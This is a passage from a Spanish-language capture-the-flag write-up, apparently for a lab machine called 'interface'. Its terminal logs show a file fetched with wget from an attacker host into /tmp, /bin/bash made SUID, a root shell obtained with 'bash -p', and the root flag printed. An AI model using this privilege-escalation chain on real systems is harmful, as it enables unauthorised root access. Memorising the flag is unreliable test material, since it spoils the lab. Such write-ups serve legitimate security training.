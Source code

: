 ```bash
www-data@interface:~$ wget http://10.10.14.115/xd.jpeg
--2023-05-12 06:38:31--  http://10.10.14.115/xd.jpeg
Connecting to 10.10.14.115:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 283178 (277K) [image/jpeg]
Saving to: 'xd.jpeg'

xd.jpeg                         100%[=======================================================>] 276.54K   725KB/s    in 0.4s    

2023-05-12 06:38:31 (725 KB/s) - 'xd.jpeg' saved [283178/283178]

www-data@interface:~$ mv xd.jpeg /tmp
www-data@interface:~$
```

Ahora tenemos que esperar a que la **bash** sea `SUID`

```bash
www-data@interface:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
www-data@interface:~$ 

```

## Root flag 

Ahora ya somos root 

```bash
www-data@interface:~$ bash -p
bash-4.4# whoami
root
```

```bash
bash-4.4# cat root.txt 
f36113d4d5376dacce1e7bfaa4fb00df
bash-4.4#
```
